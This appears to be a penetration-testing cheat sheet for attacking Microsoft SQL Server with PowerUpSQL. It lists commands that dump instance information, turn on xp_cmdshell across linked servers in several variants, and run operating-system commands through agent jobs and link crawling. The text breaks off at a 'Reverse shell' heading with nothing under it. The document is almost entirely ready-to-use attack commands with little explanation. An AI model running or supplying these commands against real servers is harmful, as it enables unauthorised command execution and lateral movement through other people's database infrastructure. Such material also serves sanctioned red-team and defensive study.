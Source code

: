 ```
Invoke-SQLDumpInfo -Verbose -Instance Server1\Instance1
```


#### Audit for Issues

```
Invoke-SQLAudit -Verbose -Instance SQLServer1
```


#### Execute OS commands: Agent Job - PowerShell

```
$Targets | Invoke-SQLOSCmdAgentJob -Verbose -SubSystem PowerShell -Command 'write-output "hello world" | out-file c:\windows\temp\test2.txt' -Sleep 20
```


#### Xp\_cmdshell v1

```
Get-SQLServerLinkCrawl -Instance db-mssql -Query "sp_configure 'show advanced options', '1'"
Get-SQLServerLinkCrawl -Instance db-mssql -Query "RECONFIGURE"
Get-SQLServerLinkCrawl -Instance db-mssql -Query "sp_configure 'xp_cmdshell', '1'"
Get-SQLServerLinkCrawl -Instance db-mssql -Query "RECONFIGURE"
```


#### Xp\_cmdshell v2

```
Get-SQLQuery -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "msqlsrv.domain.local"'
```


#### Xp\_cmdshell v3

```
Get-SQLServerLinkCrawl -Instance DOMAIN\SQLEXPRESS 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "msqlsrv.domain.local"'
```


#### OSQL Xp\_cmdshell

```
osql -E -S "db-mssql" -Q "EXECUTE('sp_configure ''xp_cmdshell'',1;RECONFIGURE;') AT [msqlsrv.domain.local]"
```


#### Executing Commands

```
Get-SQLServerLinkCrawl -Instance db-mssql -Query "exec master..xp_cmdshell "whoami'"
```


#### Reverse shell
